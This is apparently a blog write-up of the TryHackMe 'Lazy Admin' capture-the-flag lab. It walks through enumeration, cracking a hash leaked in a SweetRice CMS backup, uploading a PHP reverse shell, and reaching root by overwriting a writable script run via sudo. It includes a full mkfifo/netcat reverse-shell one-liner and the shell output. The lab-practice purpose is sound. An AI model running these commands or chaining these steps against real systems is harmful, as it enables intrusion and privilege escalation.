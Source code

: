 ```yaml
---
title : Lazy Admin - TryHackMe WriteUp
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
---
```


### <mark style='background-color: white'>Introduction</mark>
'Lazy Admin' is an easy room made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), great for practice challenges. 
Let's get started! 

### <mark style='background-color: white'>Enumeration</mark>
Starting Nmap with the -A flag, here's the output : 
- - -
<pre>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
</pre>
- - - 
Examining the source code of the running web service looking for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/content.png)
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png)
Did some research about this CMS and found that the 1.5.1 version suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
Check this link : [SweetRice-1.5.1-Code-Execution](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html)
So basically, this means that I can upload a php reverse shell and execute it but first we need some credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### <mark style='background-color: white'>USER.txt - Easy Peasy</mark>
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
<pre>
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
</pre>
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
<pre>
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
</pre>
- - -


### <mark style='background-color:white'>ROOT.txt</mark>
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

<pre>
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
</pre>

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
</pre>
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
<pre>
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
<pre> 
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 \>/tmp/f' \>/etc/copy.sh
</pre>
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
<pre>
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
</pre>
- - - 
Congrats, now you pissed off the lazy admin ! 
